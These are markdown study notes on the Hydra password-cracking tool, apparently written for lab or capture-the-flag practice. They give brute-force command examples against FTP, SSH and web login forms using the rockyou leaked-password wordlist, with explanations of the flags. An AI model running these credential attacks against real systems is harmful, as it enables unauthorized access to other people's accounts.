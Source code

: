 # Notes and example commands in hydra

[Hydra docs from kali](https://en.kali.tools/?p=220)

## FTP cracking

- `hydra -l <userlist> -P <passlist> ftp://<ip>`
  - `-l` is for login. For selecting creds for username field. Could pass path to a list of usernames.
  - `-P` is for password. For selecting creds for password field. could pass path to a list of passwords.

## SSH cracking

- `hydra -l <userlist> -P <passlist> <ip> -t <numberOfThreads> ssh`
  - `-l` for login/username
  - `-P` for password
  - `-t` for specifying number of threads to be used
  - `ssh` for specifying crack type

**Examples:**

- `hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt $(cat ip) ssh -V`

## POST login form

- `hydra -l <username> -P <wordlist> <ip> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`
  - `-l` for login/username
  - `-P` for password
  - `http-post-form` for form type
  - `username=^USER^` usernames from wordlist will be replaced by `^USER^`
  - `password=^PASS^` passwords from wordlist will be replaced by `^PASS^`
  - `F=incorrect` if `incorrect` appears in the output, it's a failed login attempt.

**Examples:**

- `hydra -l /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt $(cat ip) http-post-form "/login:username=^USER^&password=^PASS^:F=invalid" -V`

## Wordlist locations to copy

`/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

## FTP hacking

- `hydra -l chris -P ../../wordlists/rockyou.txt ftp://$(cat ip) -V`

